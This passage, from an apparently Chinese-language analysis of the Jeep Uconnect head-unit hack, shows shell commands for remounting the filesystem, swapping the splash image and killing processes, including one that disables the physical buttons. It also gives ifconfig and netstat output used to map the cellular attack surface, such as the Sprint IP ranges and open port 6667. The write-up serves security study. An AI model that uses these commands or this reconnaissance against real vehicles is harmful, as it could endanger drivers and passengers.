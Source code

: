 或是改变屏幕显示的图片，图片格式应为png格式：
```sh
mount -uw /fs/mmc0/
cp pic.png /fs/mmc0/app/share/splash/Jeep.png
pidin arg | grep splash
kill <PID>
splash -c /etc/splash.conf &
```

通过关闭“service.lua” 进程，可以使车机上的物理按钮失效：
`kill this process: lua -s -b -d /usr/bin service.lua`


### 蜂窝通信模块渗透

上面分析了如何利用USB进行越狱和如何利用D-Bus服务及其漏洞等两种方法实现任意代码执行，但仍然停留在物理接触车辆的攻击场景内，没有实现远程代码执行（RCE）。虽然接入 WiFi 热点并实现对车辆渗透是令人兴奋的，这也说明了可以远程实现命令执行，但很多人不会每月付费 $34.99 来开启车内WiFi模块且 WiFi 通信距离在百米之内，远程执行的限制较大。为了能够真正实现远程渗透攻击，Miller 等人研究了更为实际的蜂窝通信模块。在 Uconnect 系统中查看网络配置：


```sh
$ ifconfig
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 33192
 inet 127.0.0.1 netmask 0xff000000
pflog0: flags=100<PROMISC> mtu 33192
uap0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
 address: 30:14:4a:ee:a6:f8
 media: <unknown type> autoselect
 inet 192.168.5.1 netmask 0xffffff00 broadcast 192.168.5.255
ppp0: flags=8051<UP,POINTOPOINT,RUNNING,MULTICAST> mtu 1472
 inet 21.28.103.144 -> 68.28.89.85 netmask 0xff000000
```

地址 192.168.5.1 是 Uconnect 系统的WiFi网络地址；地址 68.28.89.85 是一个互联网地址，但端口 6667 并不是在这个地址上开放的；地址 21.28.103.144 是 Uconnect 连接互联网的真实地址，但是仅能被 Sprint 网络内部访问。经过试验，发现 PPP 接口的IP地址会在车辆每次重启时改变，但地址空间总在两个A类地址块内：21.0.0.0/8 或 25.0.0.0/8，这应当是 Sprint 网络分配给车辆的IP地址段。这里特别重要的是找到绑定内部网络端口 6667 的方法，下面的输出是执行 `netstat` 命令的结果：

```sh
$ netstat

Active Internet connections
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 144-103-28-21.po.65531 68.28.12.24.8443 SYN_SENT
tcp 0 27 144-103-28-21.po.65532 68.28.12.24.8443 LAST_ACK
tcp 0 0 *.6010 *.* LISTEN
tcp 0 0 *.2011 *.* LISTEN
tcp 0 0 *.6020 *.* LISTEN
tcp 0 0 *.2021 *.* LISTEN
tcp 0 0 localhost.3128 *.* LISTEN
tcp 0 0 *.51500 *.* LISTEN
tcp 0 0 *.65200 *.* LISTEN
tcp 0 0 localhost.4400 localhost.65533
ESTABLISHED
tcp 0 0 localhost.65533 localhost.4400
ESTABLISHED
tcp 0 0 *.4400 *.* LISTEN
tcp 0 0 *.irc *.* LISTEN
udp 0 0 *.* *.*
udp 0 0 *.* *.*
udp 0 0 *.* *.*
udp 0 0 *.* *.*
udp 0 0 *.bootp *.*
```
